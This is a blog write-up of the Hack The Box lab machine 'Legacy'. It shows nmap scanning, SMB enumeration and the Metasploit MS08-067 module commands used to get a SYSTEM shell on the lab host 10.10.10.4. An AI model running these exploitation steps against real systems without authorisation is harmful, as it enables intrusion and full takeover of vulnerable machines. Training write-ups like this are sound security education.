 ```yaml
---
type: post
title: "Hack the Box Legacy Writeup"
date: 2020-05-12 10:00:00 +1000
---
```

Welcome to the next in this series of writeups of "OSCP-like" boxes. This time we will be attacking Legacy which is another simple hack the box machine.

## Overview

![Legacy information image](/assets/img/htb-legacy-info.png){: .align-right}

Legacy is very similar to the [previous HTB box called Lame](https://bleepsec.com/2020/05/11/htb-oscp-lame-writeup.html) that we owned with an Samba SMB vulnerability.

Skills tested:

- Port scanning
- Service enumeration
- Vulnerability CVE identification
- Vulnerability exploitation

## Scanning and Enumeration

Starting with the usual `nmap -sC -sV -oA nmap/legacy 10.10.10.4` we only identify ports 139 and 445 as open with 3389 closed. The ever useful NSE scripts have also identified this as a Windows XP machine. My hacker-sense is tingling already because Windows XP is a very old OS with many vulnerabilities!

```text
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m00s, deviation: 2h07m16s, median: 4d22h59m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:bf:c5 (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-05-17T01:56:59+03:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Port 139 and 445 SMB

The goto tools for SMB enumeration are `smbclient -L \\10.10.10.4` and `enum4linux -a 10.10.10.4` however we appear to be running itno the same time sync and clock skew issues which are preventing some enumeration. This could also be caused when SMB null session are disabled but this is unlikely on Windows XP.

![Legacy enum4linux output](/assets/img/legacy-enum4linux.png){: .align-center}

All is not lost however, since Windows XP has a very famous and reliable SMB vulnerability called MS08-067. Googling for "Windows XP SMB exploit" takes us to the Rapid7 site and documentation for a Metasploit module.

<https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi>

## Exploitation

Some buffer overflows can be unstable but the good news is that MS08-067 is a very reliable exploit and the Metasploit module is well tested. Following the instructions on the Rapid7 page should make this easy, we can usually leave the targetting as "Automatic" and the exploit will find the correct offset for the Windows XP version and language.

1. `msfconsole`
2. `search ms08-067`
3. `use exploit/windows/smb/ms08_067_netapi`
4. `set RHOSTS 10.10.10.4`
5. `exploit`

![Legacy ms08-067 output](/assets/img/legacy-ms08-067.png){: .align-center}

And we now have a Meterpreter shell as SYSTEM user with full access to the machine. Grab those flags from the user and administrator desktops and mark another box as pwned!

